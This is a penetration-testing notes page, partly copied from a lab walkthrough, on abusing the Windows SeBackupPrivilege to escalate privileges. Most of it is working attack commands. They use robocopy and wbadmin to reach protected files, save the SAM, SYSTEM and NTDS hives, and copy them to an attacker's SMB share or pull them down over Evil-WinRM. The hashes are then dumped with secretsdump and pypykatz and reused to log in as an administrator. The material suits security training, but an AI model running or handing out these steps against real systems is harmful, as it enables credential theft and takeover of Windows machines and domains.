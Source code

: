 # SeBackUp Privilege

{% embed url="https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960" %}

SeBackupPrivilege allows you to access files that we wouldnt normally have.

Using robocopy we can copy files with the pretext of making backups.

```
robocopy /b C:\Users\administrator\desktop c:\
```

```
gci C:\
```

We would have access to all the folders inside the administrator' desktop folder.

What could we do?

Well we can create a new directory in which we can just put sam, system and security files.&#x20;

We then use smbserver from impacket to start our own smb server and run hte following commands.&#x20;

`echo "Y" | wbadmin start backup -backuptarget:\\<our-ip-share\<our-share> -include:c:\windows\ntds`

`wdadmin get version`

**The output will show a version identifier take a note of this**

`echo "Y" | wbadmin start recovery -version:07/16/2022-07:$3 -itemtype:file -items:C\windows\ntds\ntds.dit -recoverytarget:C:\ -norestoreacl`

`reg save HKLM\SYSTEM c:\system.hive`

`cp ntds.dit \\<our-smb-share>\<share>\ntds.dit`

`cp system.hive \\<our-smb-share>\<share>\system.hive`

Then we travel to the location of the share&#x20;

`secretsdump.py -ntds ntds.dit -system system.hive LOCAL`

### Method 2&#x20;

![](https://i0.wp.com/1.bp.blogspot.com/-yl9wJY-9P6U/YIrXyyOTyEI/AAAAAAAAvpY/soWb\_5WCm4UzlS\_58XIXO0f39uhesHlZgCLcBGAsYHQ/s16000/5.png?w=640\&ssl=1)

#### **Exploiting Privilege on Windows 10**

Now, we can start the exploitation of this privilege. As we discussed earlier that this privilege allows the user to read all the files in the system, we will use this to our advantage. To begin, we will traverse to the C:\ directory and then move to create a Temp directory. We can also traverse to a directory with the read and write privilege if the attacker is trying to be sneaky. Then we change the directory to Temp. Here we use our SeBackupPrivilege to read the SAM file and save a variant of it. Similarly, we read the SYSTEM file and save a variant of it.

cd c:\mkdir Temp

reg save hklm\sam c:\Temp\sam

reg save hklm\system c:\Temp\system

![](https://i0.wp.com/1.bp.blogspot.com/-P2tQlhOEYCE/YIrX3B6aR\_I/AAAAAAAAvpc/8WnIXinanuow6sF9m1qxCdf9SlGUTI3RwCLcBGAsYHQ/s16000/6.png?w=640\&ssl=1)

This means that now our Temp Directory must have a SAM file and a SYSTEM file. Now using the Evil-WinRM download command, we transfer the file from the Temp directory on the target machine to our Kali Linux Machine.

cd Temp

download sam

download system

![](https://i0.wp.com/1.bp.blogspot.com/-E\_qZmwLJAtg/YIrX8v5v9EI/AAAAAAAAvpk/UilsXEy-nZMLXp-Hr9cNfeN3LjOGJvyaACLcBGAsYHQ/s16000/7.png?w=640\&ssl=1)

Now, we can extract the hive secrets from the SAM and SYSTEM file using the pypykatz. If not present on your Kali Linux, you can download it from its [GitHub](https://github.com/skelsec/pypykatz). It is a variant of Mimikatz cooked in Python. So, we can run its registry function and then use the –sam parameter to provide the path to the SAM and SYSTEM files. As soon as the command run, we can see in the demonstration below that we have successfully extracted the NTLM hashes of the Administrator account and other users as well.

pypykatz registry --sam sam system

![](https://i0.wp.com/1.bp.blogspot.com/-P0ODAEbgYOY/YIrYAmb70bI/AAAAAAAAvps/ycB6eBnYeUoocNjoZmVHotvt6wlWAYoUACLcBGAsYHQ/s16000/8.png?w=640\&ssl=1)

Now, we can use the NTLM Hash of the raj user to get access to the target machine as a raj user. We again used Evil-WinRM to do this. After connecting to the target machine, we run net user to see that raj user is a part of the Administrator group. This means we have successfully elevated privilege over our initial shell as the aarti user.

